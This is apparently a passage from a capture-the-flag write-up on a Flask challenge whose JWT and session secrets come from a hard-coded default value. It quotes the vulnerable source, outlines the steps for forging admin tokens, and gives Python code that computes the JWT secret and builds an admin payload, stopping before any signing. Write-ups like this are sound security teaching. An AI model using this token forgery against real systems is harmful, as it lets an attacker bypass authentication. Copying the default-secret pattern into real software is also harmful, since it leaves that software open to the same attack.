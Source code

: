 ## Initial Reconnaissance

First, let me show you what we're working with. The application had these endpoints:
- `/` - Redirects to login
- `/login` - User authentication  
- `/sign_up` - User registration
- `/account` - User dashboard
- `/admin` - Admin template renderer (protected)

I started by exploring the application and noticed it used both JWT tokens and Flask sessions for authentication. Interesting...

## Quick Analysis of the Source Code

Here's where things get interesting. Let me show you the critical vulnerability in the source code:

```python
base = os.environ.get("Q_SECRET", "qnqsec-default") # Default value!
app.config['JWT_SECRET'] = hashlib.sha256(("jwtpepper:" + base).encode()).hexdigest()
app.config['SECRET_KEY'] = hashlib.sha1(("pepper:" + base).encode()).hexdigest()
```

**Predictable Default Value:** If `Q_SECRET` isn't set, it defaults to `"qnqsec-default"`. This means every instance with default configuration uses the same base value.

**Why this is exploitable:**
- We can calculate the exact same secrets the server uses
- We can forge valid JWT tokens with any payload we want  
- We can forge valid Flask sessions for any user
- The server accepts our forged tokens because they're cryptographically valid

**The attack:**
1. Calculate JWT secret: `sha256("jwtpepper:qnqsec-default")`
2. Calculate Flask secret: `sha1("pepper:qnqsec-default")`
3. Forge admin JWT token using the calculated secret
4. Forge Flask session as "Flag" user using the calculated secret
5. Use both forged tokens to bypass authentication and access admin features

**Bottom line:** The server can't tell the difference between our forged tokens and legitimate ones because they're cryptographically identical. We essentially became the "server" by knowing its secrets!

## Forging the JWT Token

Let's start by forging the JWT token. Since we know the secret derivation pattern, we can calculate the exact same secret the server uses:

```python
import jwt
import hashlib
from datetime import datetime, timedelta, timezone

base = "qnqsec-default"
jwt_secret = hashlib.sha256(f"jwtpepper:{base}".encode()).hexdigest()
print(f"JWT Secret: {jwt_secret}")
# Output: 426c6e42adf5519072772b799cf987967ee9a7effaa144ff133b43c141377580

# Create admin payload
payload = {
    'sub': 'Flag',
    'role': 'admin',
    'iat': int(datetime.now(timezone.utc).timestamp()),
    'exp': int((datetime.now(timezone.utc) + timedelta(hours=1)).timestamp())
}

# Generate JWT token
```